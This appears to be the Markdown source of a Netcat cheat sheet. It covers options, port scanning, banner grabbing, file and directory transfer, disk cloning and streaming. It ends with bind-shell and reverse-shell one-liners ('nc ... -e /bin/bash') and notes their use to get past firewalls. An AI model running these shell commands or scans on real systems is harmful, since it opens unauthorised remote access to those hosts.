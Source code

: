 ```yaml
---
title: Netcat
date: 2020-11-25 18:28:43
background: bg-blue-600
tags:
  - ncat
  - nc
  - utility
  - network
  - traffic
categories:
  - Linux Command
intro: This cheat sheet provides various for using Netcat on both Linux and Unix.
plugins:
  - copyCode
---
```


## Getting Started {.cols-5}

### Usage {.col-span-2}

Connect to a host located anywhere

```shell script
$ nc [options] [host] [port]
```

Listen for incoming connections

```shell script
$ nc -lp port [host] [port]
```

### Option examples {.col-span-3 .row-span-2}

| Option | Description                | Example                                  |
| ------ | -------------------------- | ---------------------------------------- |
| `-h`   | nc -h                      | Help                                     |
| `-z`   | nc -z 192.168.1.9 1-100    | Port scan for a host or IP address       |
| `-v`   | nc -zv 192.168.1.9 1-100   | Provide verbose output                   |
| `-n`   | nc -zn 192.168.1.9 1-100   | Fast scan by disabling DNS resolution    |
| `-l`   | nc -lp 8000                | TCP Listen mode _(for inbound connects)_ |
| `-w`   | nc -w 180 192.168.1.9 8000 | Define timeout value                     |
| `-k`   | nc -kl 8000                | Continue listening after disconnection   |
| `-u`   | nc -u 192.168.1.9 8000     | Use UDP instead of TCP                   |
| `-q`   | nc -q 1 192.168.1.9 8000   | Client stay up after EOF                 |
| `-4`   | nc -4 -l 8000              | IPv4 only                                |
| `-6`   | nc -6 -l 8000              | IPv6 only                                |

### Chat client-server {.col-span-2}

Server (192.168.1.9)

```shell script
$ nc -lv 8000
```

Client

```shell script
$ nc 192.168.1.9 8000
```

## Netcat Examples

### Banner grabbing

```shell script
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```

or

```shell script
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25

```shell script
$ nc -zvn 192.168.1.1 21-25
```

Scan ports 22, 3306 and 8080

```shell script
$ nc -zvn 192.168.1.1 22 3306 8080
```

### Proxy and port forwarding

```shell script
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```

or

```shell script
$ nc -l 8001 | nc 127.0.0.1 8000
```

Create a tunnel from one local port to another

### Download file

Server (192.168.1.9)

```shell script
$ nc -lv 8000 < file.txt
```

Client

```shell script
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.

### Upload file

Server (192.168.1.9)

```shell script
$ nc -lv 8000 > file.txt
```

Client

```shell script
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:

### Directory transfer

Server (192.168.1.9)

```shell script
$ tar -cvf – dir_name | nc -l 8000
```

Client

```shell script
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.

### Encrypt transfer {.col-span-2}

Server (192.168.1.9)

```shell script
$ openssl enc -des3 -in file.txt -pass pass:password | nc -l 8000
```

Client

```shell script
$ nc 192.168.1.9 8000 | openssl enc -des3 -d -pass pass:password -out file.txt
```

Encrypt data before transfering over the network

### Clones

Server (192.168.1.9)

```shell script
$ dd if=/dev/sda | nc -l 8000
```

Client

```shell script
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda

### Video streaming

Server (192.168.1.9)

```shell script
$ cat video.avi | nc -l 8000
```

Client

```shell script {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat

### Remote shell

Server (192.168.1.9)

```shell script
$ nc -lv 8000 -e /bin/bash
```

Client

```shell script
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission
to install them, then we can create remote shell using netcat also.

### Reverse shell

Server (192.168.1.9)

```shell script
$ nc -lv 8000
```

Client

```shell script
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections
